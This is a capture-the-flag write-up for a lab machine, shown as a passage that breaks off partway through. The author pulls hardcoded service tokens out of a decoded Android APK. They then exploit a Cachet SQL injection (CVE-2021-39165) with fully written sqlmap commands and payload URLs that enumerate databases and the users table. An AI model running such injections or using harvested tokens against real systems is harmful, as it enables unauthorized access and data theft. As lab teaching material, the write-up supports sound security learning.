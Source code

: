 ![The welcome page for the application hosted on port 80](port80.png)

A quick look around quickly shows that basically no funtionality is implemented on this page, except the download function.

Clicking the bright orange button lets us download an apk file name catchv1.0.apk

I'll use apktool to decode the apk. After decoding the apk we can take a look at the strings.xml file. The file can be found at the path `catchv1.0/res/values/strings.xml`{: .filepath}. Below are some interesting strings:
```
<?xml version="1.0" encoding="utf-8"?>
<resources>
	--SNIP---
    <string name="app_name">Catch</string>
    <string name="gitea_token">b87bfb6345ae72ed5ecdcee05bcb34c83806fbd0</string>
    <string name="lets_chat_token">NjFiODZhZWFkOTg0ZTI0NTEwMzZlYjE2OmQ1ODg0NjhmZjhiYWU0NDYzNzlhNTdmYTJiNGU2M2EyMzY4MjI0MzM2YjU5NDljNQ==</string>
    <string name="slack_token">xoxp-23984754863-2348975623103</string>
    ---SNIP---
</resources>
```
{: file="catchv1.0/res/values/strings.xml"}
As can be seen above, we now have some tokens that we can use to access the `Let's Chat`, `Gitea` and `slack` services used by the developers of the apk presumably. In fact, the machine hosts a `gitea` service on port 3000, a `Let's Chat` service on port 5000 and a `Cachet` service on port 8000. 

Let's chat provides a REST-like API, more can be found [here](https://github.com/sdelements/lets-chat/wiki/API) and the same goes for [Gitea](https://docs.gitea.io/en-us/api-usage/)

Moreover, the Cachet service has had multiple CVE's disclosed at this time. I couldn't find any version number anywhere, but i found some promising exploits in this [blogpost](https://blog.sonarsource.com/cachet-code-execution-via-laravel-configuration-injection/). All required an authenticated user however, which i did not have. The blogpost however links to other exploits which can achieve this, including an SQL injection vulnerability in older Cachet versions. A POC for CVE-2021-39165 can be found [here](https://github.com/W0rty/CVE-2021-39165).

![The Cachet page](cachet.png)

The POC is quite limitied sadly, however it is quite simple to use SQLmap to exploit the vulnerability. 

`sqlmap -u "http://catch.htb:8000/api/v1/components?name=1&1%5B0%5D=&1%5B1%5D=a&1%5B2%5D=&1%5B3%5D=or%201=1)*+--+-" --tables --level=5 --risk=3`
The * is used to show SQLmap where it should inject payloads.

Below is relevant output:
```console
[19:03:44] [INFO] retrieved: 5
[19:03:45] [INFO] retrieved: information_schema
[19:03:56] [INFO] retrieved: cachet
[19:04:00] [INFO] retrieved: mysql
[19:04:03] [INFO] retrieved: performance_schema
[19:04:14] [INFO] retrieved: sys

[19:07:25] [INFO] fetching number of tables for database 'cachet'
[19:07:25] [INFO] retrieved: 25
---SNIP---
[19:09:30] [INFO] retrieved: users
```
Command for dumping columns from the users table in the cachet database:
`sqlmap -u "http://catch.htb:8000/api/v1/components?name=1&1%5B0%5D=&1%5B1%5D=a&1%5B2%5D=&1%5B3%5D=or%201=1)*+--+-" --columns -D cachet -T users --level=5 --risk=3`
